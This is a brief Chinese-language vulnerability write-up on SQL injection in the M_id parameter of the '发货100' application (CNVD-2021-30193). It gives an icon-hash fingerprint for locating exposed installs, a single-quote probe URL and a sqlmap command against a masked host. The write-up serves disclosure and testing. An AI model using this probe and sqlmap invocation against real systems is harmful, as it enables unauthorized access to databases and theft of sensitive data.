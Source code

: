 # 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
发货100
```

## 网络测绘

```
icon_hash="1420424513"
```

## 漏洞复现

主页面如下

![](images/202202170900267.png)

使用POC

```plain
/?M_id=1%27&type=product
```

![](images/202202170900051.png)

数据库出现报错, 使用Sqlmap注入

```plain
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```

![](images/202202170900124.png)